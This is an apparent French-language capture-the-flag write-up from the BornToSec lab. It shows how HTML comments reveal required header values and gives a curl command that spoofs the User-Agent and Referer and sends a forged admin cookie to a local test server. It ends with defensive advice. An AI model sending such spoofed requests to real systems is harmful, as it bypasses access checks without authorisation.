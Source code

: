 # HTTP Header Manipulation - User-Agent & Referer Spoofing

## Description
Cette vulnérabilité exploite la manipulation des en-têtes HTTP pour contourner les vérifications côté serveur basées sur l'User-Agent et le Referer.

## Exploitation

### Étape 1: Découverte du lien caché
En bas de la page principale, nous trouvons un lien discret vers une page spéciale :

```html
<a href="?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f">
    <li>© BornToSec</li>
</a>
```

### Étape 2: Exploration de la page et analyse du code source
En cliquant sur ce lien, nous arrivons sur une page qui mentionne les "Diomédéidés" en citant un article Wikipédia. Cette page semble anodine en surface.

L'inspection du code source révèle des commentaires HTML cruciaux :

**Premier commentaire :**
```html
<!--
You must come from : "https://www.nsa.gov/".
-->
```

**Second commentaire :**
```html
<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

### Étape 3: Compréhension des en-têtes HTTP requis
Ces commentaires font référence à deux en-têtes HTTP spécifiques :

#### **Referer Header**
- **Définition** : Indique l'URL de la page depuis laquelle la requête a été initiée
- **Valeur requise** : `https://www.nsa.gov/`
- **Usage** : Le serveur vérifie que la requête provient du site de la NSA

#### **User-Agent Header**
- **Définition** : Identifie le navigateur/client qui fait la requête
- **Valeur requise** : `ft_bornToSec`
- **Usage** : Le serveur vérifie que la requête provient d'un "navigateur" spécifique

### Étape 4: Manipulation des en-têtes HTTP et obtention du flag
Pour obtenir le flag, nous devons envoyer une requête GET avec les en-têtes modifiés :

```bash
curl 'http://localhost:8080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' \
  --compressed \
  -H 'User-Agent: ft_bornToSec' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate, br, zstd' \
  -H 'Referer: https://www.nsa.gov/' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-User: ?1' \
  -H 'Priority: u=0, i'
  ```

Avec les en-têtes corrects, le serveur nous retourne le flag.

### Solutions recommandées :
1. **Ne pas se fier aux en-têtes HTTP** pour la sécurité
2. **Authentification robuste** : Utiliser des tokens/sessions sécurisés
